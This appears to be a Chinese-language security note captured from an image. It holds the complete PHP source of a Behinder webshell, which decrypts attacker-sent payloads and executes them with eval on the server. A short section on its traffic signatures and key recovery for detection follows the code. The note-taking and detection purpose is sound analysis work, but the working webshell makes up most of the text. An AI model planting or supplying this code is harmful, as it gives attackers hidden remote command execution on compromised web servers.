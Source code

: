 Webshell代码：

```php
# behinder.php，密码pass

<?php
@error_reporting(0);
session_start();
if (isset($_GET['pass']))
{
    $key=substr(md5(uniqid(rand())),16);
    $_SESSION['k']=$key;
    print $key;
}
else
{
    $key=$_SESSION['k'];
  $post=file_get_contents("php://input");
  if(!extension_loaded('openssl'))
  {
    $t="base64_"."decode";
    $post=$t($post."");
    
    for($i=0;$i<strlen($post);$i++) {
           $post[$i] = $post[$i]^$key[$i+1&15]; 
          }
  }
  else
  {
    $post=openssl_decrypt($post, "AES128", $key);
  }
    $arr=explode('|',$post);
    $func=$arr[0];
    $params=$arr[1];
  class C{public function __construct($p) {eval($p."");}}
  @new C($params);
}
?>
```

流量特征：

- 密文传输。
- **Response响应包的Content Length为16。**

#### 加解密

AES加密，参考工具：https://oktools.net/aes

- Response响应包的content length为16的字符串为key，例如`93edbafac50eb64c`。
- 模式：CBC，填充：Pkcs7。
